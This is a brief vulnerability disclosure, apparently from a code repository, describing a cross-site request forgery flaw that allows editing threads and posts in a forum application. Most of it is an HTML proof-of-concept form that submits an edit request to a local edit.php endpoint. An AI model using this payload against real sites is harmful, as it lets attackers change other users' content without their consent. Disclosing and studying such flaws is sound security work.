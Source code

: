 # Edit Threads/Posts CSRF
Allows to edit threads and posts through CSRF.

## PoC:
```html
<link href="http://localhost/public/themes/Sand/assets/css/sand.css" rel="stylesheet">

<form id="LAYER_form" action="http://localhost/edit.php/post/1" method="POST" style="padding: 25px;">
    <input id="title" name="title" type="text" value="test"><br>
    <textarea id="editor" name="content" style="width: 100%; height: 300px; max-width: 100%; min-width: 100%;">test post</textarea>
    <br>
    <input type="submit" name="edit" value="Edit Post">
</form>
```
